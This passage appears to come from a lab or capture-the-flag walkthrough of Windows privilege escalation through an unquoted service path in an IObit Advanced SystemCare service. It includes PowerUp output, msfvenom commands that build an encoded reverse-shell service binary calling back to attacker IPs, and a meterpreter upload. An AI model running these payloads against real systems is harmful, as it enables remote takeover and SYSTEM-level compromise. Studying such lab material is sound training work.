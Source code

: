 ```shell
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Windows\System32\WindowsPowerShell\v1.0\\wlbsctrl.dll' -Command '...'
```

When we run the command, we can see that there is a unquoted service path vulnerability as we can see it in the checks.  More information on unquoted service path vulnerability can be found [here.](https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/) 

```python
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.70.179 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: Advanced.exe
```

For the service AdvancedSystemCareService9, the CanRestart option is set to true which means that the service can be restarted. We will now create a malicious file and upload it in the IObit folder and then restart the service to get the reverse shell. The file name is set to Advanced because we are uploading the file into the path where the Advanced SystemCare folder is present as we know there is an unquoted service path vulnerability. Since the service AdvancedSystemCareService9 is running as system32, we will be getting a reverse shell as system32.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.2.217 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Exit the powershell. Using the earlier meterpreter reverse shell, change directory to the path IObit and then upload the malicious file that we created.

```shell
upload Advanced.exe
```

```shell
meterpreter > ls
Listing: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
====================================================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2024-05-23 23:26:39 -0400  %TEMP%
100777/rwxrwxrwx  15872   fil   2024-05-23 23:27:14 -0400  Advanced.exe
100666/rw-rw-rw-  10178   fil   2024-05-23 23:23:18 -0400  Invoke-AllChecks
100666/rw-rw-rw-  174     fil   2019-09-27 07:07:07 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 15:58:52 -0500  hfs.exe
100666/rw-rw-rw-  494860  fil   2024-05-23 23:19:57 -0400  powerup.ps1
```
